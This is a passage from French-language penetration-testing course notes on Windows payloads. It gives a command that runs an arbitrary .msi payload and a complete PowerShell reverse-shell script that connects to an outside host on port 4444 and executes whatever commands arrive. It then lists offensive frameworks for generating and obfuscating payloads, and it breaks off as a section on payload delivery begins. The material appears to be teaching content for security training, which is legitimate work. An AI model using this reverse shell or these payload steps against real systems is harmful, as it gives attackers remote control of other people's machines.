```powershell
msiexec /i C:\path\to\payload.msi // Exécute le fichier .msi
```

<mark style="color:orange;">**PowerShell**</mark>

PowerShell est à la fois un environnement de shell et un langage de script. Il constitue l'environnement moderne de shell de Microsoft dans ses systèmes d'exploitation. C'est un langage dynamique basé sur le Common Language Runtime (.NET) qui traite l'entrée et la sortie comme des objets .NET.

Exemple : Un script PowerShell permettant d'établir une connexion inversée :

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.1.100", 4444)
$stream = $client.GetStream()
[byte[]]$buffer = 0..65535 | % {0}
while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $i)
$sendback = (iex $data 2>&1 | Out-String)
$sendback2 = $sendback + "PS " + (pwd).Path + "> "
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
$stream.Write($sendbyte, 0, $sendbyte.Length)
$stream.Flush()
}
$client.Close()
```

***

### <mark style="color:red;">Tools, Tactics, and Procedures for Payload Generation, Transfer, and Execution</mark>

**Payload Generation**

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th></tr></thead><tbody><tr><td><strong>Resource</strong></td><td><strong>Description</strong></td></tr><tr><td><code>MSFVenom &#x26; Metasploit-Framework</code></td><td><a href="https://github.com/rapid7/metasploit-framework">Source</a> MSF is an extremely versatile tool for any pentester's toolkit. It serves as a way to enumerate hosts, generate payloads, utilize public and custom exploits, and perform post-exploitation actions once on the host. Think of it as a swiss-army knife.</td></tr><tr><td><code>Payloads All The Things</code></td><td><a href="https://github.com/swisskyrepo/PayloadsAllTheThings">Source</a> Here, you can find many different resources and cheat sheets for payload generation and general methodology.</td></tr><tr><td><code>Mythic C2 Framework</code></td><td><a href="https://github.com/its-a-feature/Mythic">Source</a> The Mythic C2 framework is an alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.</td></tr><tr><td><code>Nishang</code></td><td><a href="https://github.com/samratashok/nishang">Source</a> Nishang is a framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.</td></tr><tr><td><code>Darkarmour</code></td><td><a href="https://github.com/bats3c/darkarmour">Source</a> Darkarmour is a tool to generate and utilize obfuscated binaries for use against Windows hosts.</td></tr></tbody></table>

{% hint style="warning" %}
<mark style="color:orange;">**Transfert et Exécution de Payloads**</mark>

Outre les vecteurs tels que les attaques de type "web drive-by", les emails de phishing ou les dépôts de fichiers, les hôtes Windows peuvent nous offrir plusieurs autres voies pour livrer un payload. La liste ci-dessous inclut quelques outils et protocoles utiles à utiliser lors de la tentative de déploiement d'un payload sur une cible.
